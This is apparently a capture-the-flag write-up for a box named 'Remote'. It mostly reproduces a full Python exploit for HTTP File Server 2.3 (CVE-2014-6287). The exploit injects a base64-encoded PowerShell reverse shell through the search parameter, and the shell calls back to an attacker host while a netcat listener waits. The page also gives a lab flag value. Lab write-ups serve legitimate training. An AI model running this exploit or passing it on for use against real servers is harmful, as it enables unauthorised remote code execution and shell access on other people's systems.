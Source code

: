 # Remote

## Nmap scan

```
http://3.101.101.0:1337
```

```
searchsploit HttpFileServer 2.3
```

<img width="1132" height="166" alt="image" src="https://github.com/user-attachments/assets/2709a9d9-dac9-463d-bcdb-67684e4198ef" />


## edit script

https://github.com/thepedroalves/HFS-2.3-RCE-Exploit/blob/main/exploit.py

```
# Exploit Title: HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 20/02/2021
# Exploit Author: Pergyz
# Vendor Homepage: http://www.rejetto.com/hfs/
# Software Link: https://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Microsoft Windows Server 2012 R2 Standard
# CVE : CVE-2014-6287
# Reference: https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands

#!/usr/bin/python3

import base64
import os
import urllib.request
import urllib.parse

lhost = "10.10.16.218"
lport = 1337
rhost = "10.10.10.8"
rport = 80

# Define the command to be written to a file
command = f'$client = New-Object System.Net.Sockets.TCPClient("{lhost}",{lport}); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{{0}}; while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){{; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i); $sendback = (Invoke-Expression $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}}; $client.Close()'

# Encode the command in base64 format
encoded_command = base64.b64encode(command.encode("utf-16le")).decode()

# Define the payload to be included in the URL
payload = f'exec|powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand {encoded_command}'

# Encode the payload and send a HTTP GET request
encoded_payload = urllib.parse.quote_plus(payload)
url = f'http://{rhost}:{rport}/?search=%00{{.{encoded_payload}.}}'
urllib.request.urlopen(url)
print("[+] Encoded the payload and sent a HTTP GET request to the target")

# Print some information
print("lhost: ", lhost)
print("lport: ", lport)
print("rhost: ", rhost)
print("rport: ", rport)
print("payload: ", payload)

# Listen for connections
os.system(f'nc -nlvp {lport}')
```




---
---


<img width="410" height="300" alt="image" src="https://github.com/user-attachments/assets/29f9ef4d-a66e-4bd4-8283-f491e5c1c71f" />


```

```

https://vk9-sec.com/exploiting-mremoteng/


## **`password`**

```
aw3s0m3_r3m0te_fl4g
```




























